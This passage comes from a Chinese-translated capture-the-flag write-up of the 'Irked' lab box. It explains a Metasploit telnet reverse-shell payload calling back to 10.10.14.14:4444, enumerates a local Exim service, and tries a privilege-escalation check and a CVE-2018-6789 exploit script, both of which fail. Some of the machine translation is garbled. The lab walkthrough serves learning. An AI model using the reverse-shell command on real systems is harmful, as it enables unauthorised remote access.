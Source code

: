     real    0m3.004s
    user    0m0.003s
    sys     0m0.002s
    

因此，在此有效负载中，它使用睡眠来保持有效负载运行一些最短的时间。

查看命令的其余部分：

    (sleep 4054|telnet 10.10.14.14 4444|while : ; do sh && break; done 2>&1|telnet 10.10.14.14 4444 >/dev/null 2>&1 &)
    

接下来是 telnet 回到我身边，通过管道进入一段时间的 true（在 shell 中是真实的），直到返回成功，在这种情况下，它会中断，将 stderr 发送到 stdout，并将管道传回 telnet 返回给我。Metasploit 中的处理程序必须足够智能，以便在同一端口上处理这两个不同的 telnet 连接。`:``sh`

### 埃克西姆

#### 列举

我注意到该框正在本地主机上的端口25上侦听：

    djmardov@irked:/dev/shm$ netstat -antp | grep ":25"
    (Not all processes could be identified, non-owned process info
     will not be shown, you would have to be root to see it all.)
    tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -               
    tcp6       0      0 ::1:25                  :::*                    LISTEN      -  
    

如果我连接到它，我会看到横幅：

    djmardov@irked:/tmp$ nc 127.0.0.1 25                                        
    220 irked ESMTP Exim 4.84_2 Tue, 20 Nov 2018 09:53:00 -0500  
    

`exim4`在我的输出中是一个二进制文件：`LinEnum.sh`

    -rwsr-xr-x 1 root root 1085300 Feb 10  2018 /usr/sbin/exim4
    

#### 本地特权漏洞 - 失败

此版本确实存在已知的[本地隐私漏洞](https://www.exploit-db.com/exploits/39549)。不幸的是，对我来说，为了容易受到攻击，系统需要使用Perl支持进行编译，我可以使用以下命令进行检查：

    djmardov@irked:/dev/shm$ /usr/sbin/exim -bV -v | grep -i Perl
    djmardov@irked:/dev/shm$
    

没有结果意味着这不容易受到攻击。

#### CVE-2018-6789 - 失败

我还尝试了CVE-2018-6789。这是一个超级复杂的漏洞，涉及堆溢出。但是有[POC](https://www.exploit-db.com/exploits/45671)，所以我可以指向并射击，看看我是否幸运。

我运行了它，它要求回调IP，端口和目标。

    root@kali# python exim_exp.py 
    exim_exp.py <cb> <cbport> <target>
    